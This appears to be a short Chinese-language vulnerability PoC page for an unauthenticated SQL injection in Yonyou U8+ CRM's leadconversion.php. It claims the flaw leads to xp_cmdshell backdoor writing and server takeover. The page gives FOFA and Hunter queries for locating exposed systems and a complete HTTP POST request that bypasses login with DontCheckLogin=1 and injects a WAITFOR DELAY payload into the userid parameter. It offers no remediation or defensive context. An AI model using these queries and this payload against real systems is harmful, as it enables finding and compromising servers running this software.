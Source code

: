 # 用友U8+CRM系统leadconversion.php存在SQL注入漏洞

用友U8+CRM系统leadconversion.php存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## fofa

```javascript
title="用友U8CRM"
```

## hunter

```javascript
app.name="用友 CRM"
```

## poc

```javascript
POST /lead/leadconversion.php HTTP/1.1
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=bgsesstimeout-;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

DontCheckLogin=1&Action=getDeptName&userid=1%27;WAITFOR+DELAY+%270:0:5%27--
```

